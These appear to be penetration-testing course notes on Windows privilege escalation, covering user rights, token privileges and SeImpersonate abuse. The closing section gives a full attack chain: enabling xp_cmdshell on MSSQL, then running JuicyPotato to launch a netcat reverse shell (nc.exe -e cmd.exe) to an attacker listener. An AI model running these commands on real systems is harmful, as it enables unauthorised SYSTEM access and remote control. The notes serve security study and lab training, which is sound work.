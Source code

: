 - **User Rights Assignment**
- Depending on group membership, and other factors such as privileges assigned via domain and local Group Policy, users can have various rights assigned to their account.
- This Microsoft article on [User Rights Assignment](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/user-rights-assignment) provides a detailed explanation of each of the user rights that can be set in Windows as well as security considerations applicable to each right.

- Typing the command `whoami /priv` will give you a listing of all user rights assigned to your current user.
- When a privilege is listed for our account in the Disabled state, it means that our account has the specific privilege assigned. Still, it cannot be used in an access token to perform the associated actions until it is enabled.
- Windows does not provide a built-in command or PowerShell cmdlet to enable privileges, so we need some scripting to help us out.
- We will see ways to abuse various privileges throughout this module and various ways to enable specific privileges within our current process.
- One example is this [PowerShell script](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1) which can be used to enable certain privileges, or this [script](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/) which can be used to adjust token privileges.

### SeImpersonate and SeAssignPrimaryToken
- In Windows, every process has a token that has information about the account that is running it. 
- These tokens are not considered secure resources, as they are just locations within memory that could be brute-forced by users that cannot read memory. 
- To utilize the token, the SeImpersonate privilege is needed.

- **SeImpersonate Example - JuicyPotato**
```bash
# Connecting with MSSQLClient.py
mssqlclient.py sql_dev@10.129.43.30 -windows-auth

# Enabling xp_cmdshell
SQL> enable_xp_cmdshell

# Confirming Access
SQL> xp_cmdshell whoami

# Checking Account Privileges
SQL> xp_cmdshell whoami /priv

```
- [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the SeImpersonate or SeAssignPrimaryToken privileges via DCOM/NTLM reflection abuse.
```bash
# Escalating Privileges Using JuicyPotato
sudo nc -lnvp 8443

SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
# -l is the COM server listening port 
# -p is the program to launch (cmd.exe)
# -a is the argument passed to cmd.exe
# -t is the createprocess call.
```
